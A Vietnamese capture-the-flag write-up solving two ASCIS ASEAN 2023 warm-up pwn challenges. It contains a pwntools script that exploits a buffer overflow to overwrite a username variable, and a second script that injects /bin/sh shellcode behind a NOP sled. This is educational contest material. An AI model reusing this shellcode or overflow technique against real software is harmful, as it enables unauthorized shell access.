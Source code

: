 # ASCIS ASEAN 2023 WriteUp
## Đôi lời tâm sự:
Author: SeaWind (J4ckP0t)

Vì đây là vòng khởi động nên có thể năm nay các challenges về pwn có vẻ tương đối dễ thở. Cho nên hơn thua nhau ở các đội khi làm về mảng pwn là việc team nào giải ra nhanh hơn thôi :cold_sweat: 

Đối với mình thì tốc độ chưa bao giờ là lợi thế của mình, thường đối với một challenge dù dễ thì mình cũng cần mất tương đối thời gian mới có thể identify lỗi và exploit nó được. :face_with_head_bandage: 

Thôi tám chuyện vậy là đủ rồi, vào phần writeup thôi.
## Pwn1:
- Đề bài: [Challenge_link](https://warmup.ascis.vn/files/1e51e32a1d3b2caa96a46fc749772922/pwn?token=eyJ1c2VyX2lkIjozNjQ0LCJ0ZWFtX2lkIjo2NDMsImZpbGVfaWQiOjU4fQ.ZSGJRQ.FD4hStkqb5sR42vgzIG0yuOQoH8)
- Solution:

Đầu tiên ta sẽ tiến hành kiểm tra các mitigations của file challenge này.
![](https://hackmd.io/_uploads/r1hFsb1Wp.png)

Ở đây thì có mitigation của stack và PIE mitigation đã tắt (điều này sẽ có lợi cho lỗi bufferoverflow nên trong chương trình có tồn tại lỗi đó)

Tiếp đến ta sẽ check đến luồng thực thi và cấu trúc chương trình thông qua IDA Pro.
![](https://hackmd.io/_uploads/SkUmnZyWT.png)

Chương trình sẽ có 3 chức năng chính:

**1. Login():** (option=1) Hàm này sẽ tiến hành kiểm tra ta đã login chưa thông qua giá trị của biến old_user và old_passwd (Hàm này dường như không có ích gì trong việc khai thác lỗ hổng của ta)

![](https://hackmd.io/_uploads/rkY23Wkbp.png)

**2. Signup():** (option=2) Hàm này sẽ tiến hành đọc từ input của ta về username và passwd (trừ username = admin) và lưu giá trị vào trong biến old_user và old_passwd (Đây là hàm mà chúng ta sẽ tiến hành khai thác lỗ hỗng ở đây)

![](https://hackmd.io/_uploads/H1APpZk-p.png)

**3. getflag():** (option=4) Hàm này chính là hàm mà chúng ta hướng đến, hàm này sẽ kiểm tra giá trị của biến old_user có = với "admin" không. Nếu có thì sẽ leak ra flag cho chúng ta.

![](https://hackmd.io/_uploads/SJ_fCZ1ba.png)

Ở trong hàm Signup này thì ta thấy ngay được lỗ hổng buffer overflow ở ngay hàm `scanf('%s')` khi hàm này sẽ cho ta phép nhập input ở đến khi gặp dấu `'\n'` hoặc dấu `' '` (dấu xuống hàng và dấu khoảng trắng) ở trong input của cà username và passwd.

![](https://hackmd.io/_uploads/By5I1G1ZT.png)


![](https://hackmd.io/_uploads/SyVdkGyb6.png)

Ban đấu ý tưởng của mình là sử dụng lỗi buffer overflow này để tiến hành ghi đè địa chỉ của RIP ở điều hướng chương trình này sang hẳn hàm open flag trong hàm getflag luôn. Nhưng mà khổ nỗi là địa chỉ của hàm getflag ấy có chứa mã hex của `'\n'` nên căn bản là không thể ghi đè đầy đủ địa chỉ được đó.

Và mình đã rất chật vật để làm sao để có thể ghi đè địa chỉ RIP của hàm là địa chỉ của hàm getflag theo ý mình muốn nhưng mã không được.

Cho đến khi mình được gợi ý rằng là đối lúc chúng ta cần phải chơi đúng luật chơi một chút :V 

Căn bản là chúng ta vẫn sẽ khai thác lỗi buffer overflow nhưng chúng ta sẽ tiến hành ghi đè giá trị của biến `old_user` sẽ là "admin" thông qua việc kết hợp buffer overflow của input nhập passwd + hàm strncpy.

Tại sao mình lại có thể ghi đè được giá trị của biến `old_user` ư? Nếu ta để ý kỹ thì input của việc nhập username cũng như passwd của ta được lưu vào 2 biến local của hàm.

![](https://hackmd.io/_uploads/ryQ7fMJWp.png)

Trong đó ta thấy biến `src` (chứa input của nhập passwd) nằm trước biến `s1` (chứa input của nhập username) của ta cho nên nếu ta lặp đầy biến `src` 64 bytes + chuỗi string `admin` thì ta sẽ ghi đè giá trị trong biến local `s1`

Sau đó hàm strncpy sẽ lưu giá trị của biến `s1` vào trong biến `old_user` và `src` vào trong biến `old_passwd`



![](https://hackmd.io/_uploads/ryfMXGJba.png)

Giờ thì ta đã thành công truyền được string `admin` vào trong biến `old_user` rồi. Gọi hàm **getflag()** và in ra flag thôi.

- Answer: Đây là script giải bài của mình:
```python!=
from pwn import *
context.binary = "./pwn"
#p = process("139.180.137.100", 1337)
p = process()
p.sendline(b'2')
print(p.recv())
p.sendline(b'a')
print(p.recv())
p.sendline(cyclic(64)+b'admin')
print(p.recv())
#p.sendline(b'1')
#print(p.recv())
#p.sendline(cyclic(72)+p64(0x0000000000400aac))
p.sendline(b'4')
p.interactive()
```
## Pwn2:
- Đề bài: [Challenge_link](https://warmup.ascis.vn/files/c6ec92ba170edf460b4eec3f8dd9cf3e/pwn2?token=eyJ1c2VyX2lkIjozNjQ0LCJ0ZWFtX2lkIjo2NDMsImZpbGVfaWQiOjU5fQ.ZSGJ9A.JajO4Fjeg9uI0hpD9nYzv9FmzDE)
- Soluton:

Đầu tiên ta sẽ tiến hành kiểm tra các mitigations của challenge này.

![](https://hackmd.io/_uploads/B1Awimg-T.png)

Oh wow! Tất cả các mitigations đều không được bật. Một mảnh đất đầy màu mỡ cho việc khai thác lỗ hổng :relaxed: 

Tiếp đến thì ta sẽ tiến hành xem mã giả và luồng thực thi chương trình thông qua IDA Pro.

![](https://hackmd.io/_uploads/HyHXnXlWT.png)

Phân tích luồng thực thi của chương trình thì ta thấy ngay rõ ràng ở hàm getflag có lỗ hỗng shellcode execution (do ta thấy mitigation của challenge này đã disable NX và có RWX segments) 

Tức là việc ở input thứ 2 (cụ thể là ở hàm `read(0,s,0x64)`) thì ta có thể inject shellcode để có thể chiếm được shell của chương trình

Đến đây thì ta cần biết chút ít về lập trình assembly (cụ thể là kiến trúc x86-64) ở để có thể viết được shellcode chiếm shell


Thì ở solution của mình, vì lúc đó trong thời gian thi (áp lực các kiểu) và một phần là do mình lười :V , cho nên mình sẽ sử dụng shellcode có sẵn trên mạng (nguồn mình sẽ để ở đây [link](https://shell-storm.org/shellcode/files/shellcode-603.html)) 

Vì shellcode này chỉ có 30 bytes length trong khi trong hàm main sẽ kiểm tra xem length của shellcode mà mình nhập vào có lớn hơn 39 (0x27) hay không. Cho nên để lấp đầy phần còn thiếu trong shellcode thì mình sẽ sử dụng lệnh nop (hay còn gọi là kỹ thuật nop sled với chức năng là không làm gì cả :V, nó sẽ tiến hành thực thi lệnh nop để trượt dài cho đến shellcode của mình). 





- Answer: Đây là script để giải ra bài này của mình:
```python!=
from pwn import *
context.binary = "./pwn2"
p = process()
#p = remote("139.180.137.100", 1338)
#p = gdb.debug("./pwn2")
p.send(cyclic(0x32))
p.recv()
payload = b'\x90'*60
payload += b'\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'
p.send(payload)
p.interactive()
```

